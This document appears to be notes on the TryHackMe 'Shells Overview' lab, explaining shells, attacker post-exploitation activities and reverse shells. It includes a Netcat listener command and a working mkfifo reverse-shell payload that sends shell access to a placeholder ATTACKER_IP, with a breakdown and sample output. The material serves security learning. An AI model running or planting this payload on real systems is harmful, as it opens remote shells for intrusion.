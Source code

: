 # TryHackMe — Shells Overview walkthrough

Room URL: 

---
# 🐚 Shell Overview

## 🔎 What is a Shell?

A **shell** is software that allows a user to interact with an operating system. It can be a **graphical interface**, but is most commonly a **command-line interface (CLI)** — depending on the OS running on the target system.


## 💻 Shell in Cybersecurity

In cybersecurity, a shell often refers to a **remote command-line session** that an **attacker uses** after gaining access to a compromised system. This shell allows attackers to **execute commands and run software remotely**.


## 🛠️ Common Attacker Activities with a Shell

### 1. 🕹️ Remote System Control
- Enables the attacker to execute commands or software **remotely** on the target system.

### 2. 🔐 Privilege Escalation
- If the attacker gains **limited access**, they can attempt to **escalate privileges** to gain administrative or root access.

### 3. 📤 Data Exfiltration
- Attackers can **read and extract sensitive data** from the target system using shell commands.

### 4. 🧬 Persistence & Maintaining Access
- Attackers can create **backdoors**, add new users or credentials, or install tools to **keep access** for later.

### 5. 🔧 Post-Exploitation Activities
- Once a shell is established, attackers can:
  - Deploy malware
  - Create hidden users
  - Delete or manipulate files

### 6. 🧭 Pivoting (Accessing Other Systems)
- Shell access can serve as a **pivot point** to move through the network and target other systems. This process is known as **pivoting**.

Understanding how attackers use shells helps defenders **detect**, **analyze**, and **prevent** further exploitation.



---
# 🔊 Reverse Shell Notes

A **Reverse Shell**, also called a "connect-back shell," is a commonly used technique in cyberattacks to gain access to a victim machine.


## 🔧 What Is a Reverse Shell?

A reverse shell causes the **target machine to initiate a connection** back to the attacker's machine. This technique:
- **Bypasses firewalls**, as many allow outbound connections but block incoming ones.
- Enables the attacker to execute commands remotely.


## 💡 How Reverse Shells Work

The attacker uses a tool (like **Netcat**) to listen on a port, waiting for the target to connect back.

### ⚡ Set up a Netcat Listener
```bash
nc -lvnp 443
```

### Explanation of Netcat Command
- `-l`: Listen for incoming connections
- `-v`: Verbose mode (gives feedback)
- `-n`: Avoid DNS lookup
- `-p 443`: Use port 443 to listen (can be any port)

**Commonly used ports for reverse shells**: 53, 80, 443, 139, 445 — to blend in with normal traffic.

---

## 🔧 Gaining Reverse Shell Access

Once the listener is ready, the attacker needs to **execute a reverse shell payload** on the victim machine.

### 🔢 Example Payload: Pipe Reverse Shell
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

#### Payload Breakdown
- `rm -f /tmp/f` – Remove existing named pipe at `/tmp/f`
- `mkfifo /tmp/f` – Create a **named pipe** at `/tmp/f`
- `cat /tmp/f` – Read input from the pipe
- `| sh -i 2>&1` – Pipe input into an interactive shell; redirect error to output
- `| nc ATTACKER_IP ATTACKER_PORT` – Send shell I/O to attacker
- `>/tmp/f` – Write shell output back into pipe to maintain 2-way communication


## 🤜 Attacker Receives the Shell

```bash
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$
```

The attacker now has full shell access to the compromised machine.


## 🌐 Summary
- A **reverse shell** connects from the **victim to the attacker**.
- Often used in **penetration testing and real-world attacks**.
- Tools like **Netcat**, **Bash**, or **Python** can be used to create reverse shells.
- Commonly disguised by using **well-known ports** and **obfuscating payloads**.


## 🧪 Note
Always use these techniques ethically and only in authorized environments such as CTFs or penetration testing with proper permissions.


